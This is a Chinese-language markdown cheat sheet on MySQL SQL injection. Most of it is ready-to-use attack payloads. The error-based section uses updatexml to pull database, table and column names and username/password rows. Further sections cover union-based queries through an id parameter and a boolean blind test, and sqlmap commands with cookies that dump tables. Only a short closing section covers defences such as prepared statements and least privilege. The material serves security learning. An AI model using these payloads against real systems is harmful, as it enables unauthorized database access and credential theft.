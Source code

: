 # MySQL 注入安全知识

## 1. SQL 注入概述

SQL 注入（SQL Injection）是一种攻击技术，攻击者通过构造特殊的 SQL 语句，使数据库执行未授权的查询或操作，从而泄露、篡改、删除数据库中的数据。

## 2. 报错注入（Error-Based Injection）

利用 MySQL 的报错机制获取数据库信息。

### 2.1 获取数据库名称

```sql
SELECT updatexml(1, CONCAT(0x7e, DATABASE()), 1);
' OR updatexml(1, CONCAT(0x7e, DATABASE()), 1);#
```

### 2.2 获取数据库中的表名

```sql
SELECT updatexml(1, CONCAT(0x7e, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE()), 0x7e), 1);
' OR updatexml(1, CONCAT(0x7e, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE()), 0x7e), 1);#
```

如果数据库中仅有一个表：

```sql
SELECT updatexml(1, CONCAT(0x7e, (SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE())), 1);
' OR updatexml(1, CONCAT(0x7e, (SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE())), 1);#
```

### 2.3 获取表中的列名

```sql
SELECT updatexml(1, CONCAT(0x7e, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='admin')), 1);
' OR updatexml(1, CONCAT(0x7e, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='admin')), 1);#
```

### 2.4 获取表中的数据

获取第一条数据：

```sql
SELECT updatexml(1, CONCAT(0x7e, (SELECT CONCAT(id, ',', username, ',', password) FROM login.user LIMIT 0,1)), 1);
' OR updatexml(1, CONCAT(0x7e, (SELECT CONCAT(username, ',', password) FROM abc.admin LIMIT 1,1)), 1);#
```

获取多条数据：

```sql
SELECT updatexml(1, CONCAT(0x7e, (SELECT GROUP_CONCAT(id, ',', username, ',', password) FROM login.user LIMIT 0,2)), 1);
' OR updatexml(1, CONCAT(0x7e, (SELECT GROUP_CONCAT(id, ',', username, ',', password) FROM login.user LIMIT 0,2)), 1);#
```

## 3. 联合查询注入（Union-Based Injection）

### 3.1 判断列数

```sql
?id=1 ORDER BY n;
```

### 3.2 获取数据库名称

```sql
?id=-1 UNION SELECT 1,2,3,4,5,6,7, DATABASE(),9,10;
```

### 3.3 获取数据库中的表名

```sql
?id=-1 UNION SELECT 1,2,3,4,5,6,7, GROUP_CONCAT(table_name),9,10 FROM information_schema.tables WHERE table_schema=DATABASE();
```

### 3.4 获取表中的列名

```sql
?id=-1 UNION SELECT 1,2,3,4,5,6,7, GROUP_CONCAT(column_name),9,10 FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='manage_user';
```

### 3.5 获取表中的数据

```sql
?id=-1 UNION SELECT 1,2,3,4,5,6,7, GROUP_CONCAT(m_name,0x7e,m_pwd),9,10 FROM manage_user LIMIT 0,1;
```

## 4. 布尔盲注（Boolean-Based Blind Injection）

布尔盲注通过构造布尔表达式，观察页面是否返回相同的结果，从而判断数据。

```sql
' OR ASCII(SUBSTR(DATABASE(),1,1)) > 105#
```

## 5. sqlmap 指令

sqlmap 是一个自动化 SQL 注入检测和利用工具，支持多种注入方式。

### 5.1 获取数据库名称

```bash
sqlmap -u "<url>" --cookie="<cookie_value>" --current-db
```

### 5.2 获取数据库的表

```bash
sqlmap -u "<url>" --cookie="<cookie_value>" -D <Database> --tables
```

### 5.3 获取表中的列

```bash
sqlmap -u "<url>" --cookie="<cookie_value>" -D <Database> -T <table> --columns
```

### 5.4 获取表中的数据

```bash
sqlmap -u "<url>" --cookie="<cookie_value>" -D <Database> -T <table> -C <column1>,<column2> --dump
```

## 6. 防御 SQL 注入

为了防止 SQL 注入攻击，应采用以下措施：

- 使用预处理语句（Prepared Statements）

  ```python
  import pymysql
  conn = pymysql.connect(host='localhost', user='root', password='password', database='test')
  cursor = conn.cursor()
  sql = "SELECT * FROM users WHERE username = %s AND password = %s"
  cursor.execute(sql, (username, password))
  ```

- **使用 ORM（如 SQLAlchemy、Django ORM）**

- **限制数据库用户权限**

- **开启 Web 应用的防火墙（WAF）**

- **过滤和转义用户输入**

- **设置 SQL 查询超时**

通过采取上述防御措施，可以有效降低 SQL 注入攻击的风险。